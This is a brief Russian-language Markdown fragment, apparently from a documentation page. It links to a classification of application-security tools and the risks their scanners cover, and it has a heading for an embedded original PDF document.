- [Классификация AppSec-инструментов](../appsec_tt.md) — какие сканеры закрывают какие риски

## Оригинал документа

{ type=application/pdf style="min-height:80vh;width:100%" }
